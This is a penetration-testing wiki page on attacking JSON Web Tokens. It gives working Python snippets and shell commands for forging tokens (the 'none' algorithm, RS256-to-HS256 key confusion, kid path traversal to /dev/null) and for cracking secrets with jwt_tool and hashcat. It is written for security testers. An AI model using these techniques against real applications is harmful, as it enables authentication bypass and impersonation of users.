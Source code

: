 # Insecure JSON Web Tokens

## Theory

Some web applications rely on JSON Web Tokens (JWTs) for stateless authentication and access control instead of stateful ones with traditional session cookies. Some implementations are insecure and allow attackers to bypass controls, impersonate users, or retrieve secrets.

## Practice

Testers need to find if, and where, the tokens are used. A JWT is a base64 string of at least 100 characters, made of three parts (header, payload, signature) separated by dot, and usually located in `Authorization` headers with the `Bearer` keyword. See the the following example.

```
Authorization: Bearer eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]
```

Once the tokens are found, testers need to assess their implementation's security by attempting some known attacks and flaws.

### Sensitive data

JWTs are just base64 encoded data. They may contain sensitive unencrypted information.

### Signature attack - None algorithm

Testers need to decode the token, change the algorithm to `None` (or `none`, `NONE`, `nOnE`) in the header, remove the signature, and send the modified token. Some applications are vulnerable to this attack since some support a None algorithm for signature.

This can be done in Python.

```python
import jwt
old_token = 'eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]'
old_token_payload = jwt.decode(old_token, verify=False)
new_token = jwt.encode(old_token_payload, key='', algorithm=None)
print(new_token)
```

If the token is accepted by the web app, it means the payload can be altered.

```python
import jwt
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key='', algorithm=None)
print(token)
```

### Signature attack - RS256 to HS256

If the algorithm used to sign the payload is RS256, testers can try to use HS256 instead. Instead of signing the JWT payload with a private key, using HS256 will make the web app sign it with a public key that can sometimes be easily obtained.

{% hint style="info" %}
Some applications re-use their TLS certificate for JWT operations. The TLS certificate's public key used by a server can be obtained with the following command.

```bash
echo | openssl s_client -connect $TARGET:443 | openssl x509 -pubkey -noout > pubkey.pem
```
{% endhint %}

The following Python code can be used to identify if the web application is vulnerable to this attack.

```python
import jwt
old_token = 'eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]'
old_token_payload = jwt.decode(old_token, verify=False)
public_key = open('pubkey.pem', 'r').read()
new_token = jwt.encode(old_token_payload, key=public_key, algorithm='HS256')
print(new_token)
```

If the token is accepted by the web app, it means the payload can be altered.

{% hint style="warning" %}
The jwt library imported in the following Python code raises an exception when attempting to use an asymmetric key or x509 certificate as an HMAC secret. Testers need to install version 0.4.3 `pip/pip3 install pyjwt==0.4.3`.
{% endhint %}

```python
import jwt
public_key = open('pubkey.pem', 'r').read()
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key=public_key, algorithm='HS256')
print(token)
```

### Signature attack - KID header path traversal

The [kid](https://www.rfc-editor.org/rfc/rfc7515#section-4.1.4) (Key ID) is an optional parameter specified in the JWT header part to indicate the key used for signature validation in case there are multiple ones.

The structure of this ID is not specified and it can be any string value (case-sensitive).&#x20;

The last part is interesting because, if the parameter is vulnerable to [directory traversal](directory-traversal.md), this would allow to perform path traversal and point to a file `path/file` with content we can guess or known somehow, and use its content as the value of the signing key.

{% hint style="info" %}
> There are a bunch of files in /sys that are basically flags. Like the flag that says if ftrace is enabled is either 0 or 1. So the attacker just creates 2 tokens with that as the key and one of them will work!
>
> _(By_ [_Intigriti_](https://twitter.com/intigriti) _on_ [_Twitter_](https://twitter.com/intigriti/status/1618653959752925184)_)_

The example mentioned above is located at `/proc/sys/kernel/ftrace_enabled`
{% endhint %}

This can be done in Python.

{% code overflow="wrap" lineNumbers="true" %}
```python
import jwt
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key='file-content', algorithm='HS256', headers={"kid": "../../../path/to/file"})
print(token)
```
{% endcode %}

#### Special case: `file=/dev/null`

The signature validation can be bypassed by pointing to `/dev/null` which will return an empty string, meaning that an empty key could be used for signature.

{% hint style="info" %}
"[JWT authentication bypass via kid header path traversal](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal)" PortSwigger lab provides more insight on this technique.
{% endhint %}

{% code overflow="wrap" lineNumbers="true" %}
```python
import jwt
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key='', algorithm='HS256', headers={"kid": "../../../dev/null"})
print(token)
```
{% endcode %}

{% hint style="info" %}
If Burp is used to craft the JWT token, a symmetric key with value of the `k` property in the JWT equal to `AA==` (base64 value of null byte) must be created.&#x20;

The same secret value is to be used on [jwt.io](https://jwt.io/).&#x20;
{% endhint %}

### Cracking the secret

When JWT uses `HMAC-SHA256`/`384`/`512` algorithms to sign the payload, testers can try to find the secret if weak enough.

[JWT tool](https://github.com/ticarpi/jwt\_tool) (Python3) can be used for this purpose.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># crack the secret using dictionnary attack
<strong>jwt_tool.py -v -C -d $wordlist_file "$JWT_value"
</strong><strong>
</strong># use the secret to tapmer (-T option) the token
# running this command will show up a menu to choose the value to tamper
# the result token will be signed with the submited secret using the specified singing algorithm "alg" (hs256/hs384/hs512 = HMAC-SHA signing).
<strong>jwt_tool.py -v -S $alg -p "$secret" -T "$JWT_value"
</strong></code></pre>

JWT secrets can also be cracked using hashcat (see the [AD credential cracking](../../ad/movement/credentials/cracking.md) page for more detailed info on how to use it).

```bash
hashcat --hash-type 16500 --attack-mode 0 $JWTs_file $wordlist_file
```

### Recovering the public key

In certain scenarios, public keys can be recovered when knowing one (for algos `ES256`, `ES384`, `ES512`) or two (for algos `RS256`, `RS384`, `RS512`) tokens.

This can be achieved with the following Python script : [JWT-Key-Recover](https://github.com/FlorianPicca/JWT-Key-Recovery)

## References

{% embed url="https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/" %}

{% embed url="https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/" %}

{% embed url="https://blog.imaginea.com/stateless-authentication-using-jwt-2/" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token" %}

{% embed url="https://jwt.io/" %}

{% embed url="https://portswigger.net/web-security/jwt" %}

{% embed url="https://systemweakness.com/deep-dive-into-jwt-attacks-efc607858af6" %}
